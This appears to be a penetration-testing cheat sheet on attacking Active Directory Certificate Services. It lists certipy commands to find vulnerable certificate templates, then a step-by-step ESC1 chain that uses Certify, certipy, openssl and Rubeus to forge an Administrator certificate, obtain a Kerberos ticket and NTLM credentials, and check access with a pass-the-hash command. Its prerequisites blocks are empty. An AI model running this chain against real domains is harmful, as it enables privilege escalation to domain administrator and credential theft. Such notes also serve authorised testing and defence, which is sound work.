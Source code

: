 
##### Prerequisites



Normal
```powershell

```

Kerberos Only
```powershell

```

## Active Directory Certificate Services

This command will use the certipy tool to query the domain for certificate information.
It will then only return enabled templates and those with expected vulnerabilities.

Flag explanations
- -enabled only returns enabled templates. disabled templates cannot be leveraged
- -vulnerable only returns templates that have vulnerabilities
- -hide-admins hides template vulnerabilies that only Admin level priviliges can abuse.

```bash
# Find Vulnerable Certificate Templates
certipy find domain.local/user:pass@domain.local -enabled -vulnerable -hide-admins
```

### ESC1

This works if 3 conditions are met.
- Client Authentication is set to 'True'
- Certificate Name Flag is set to 'EnrolleSuppliesSubject'
- You can authenticate as an enrolle.


```bash
# Locally
Certify.exe request /ca:dc.domain.local\domain-DC-CA /template:VulnerableTemplate /user:Administrator

# copy cert from the compromised host to your attack box and name it cert.pem 
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# upload cert.pfx to compromised host
Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /ptt /getcredentials


# Remotely
certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template ESC1-Test -upn administrator@corp.local -dns dc.corp.local
certipy auth -pfx administrator_dc.pfx -dc-ip <dc-ip> -username Administrator

# Check Auth
cme smb <dc-ip> -u Administrator -H <ntlm> --shares
```
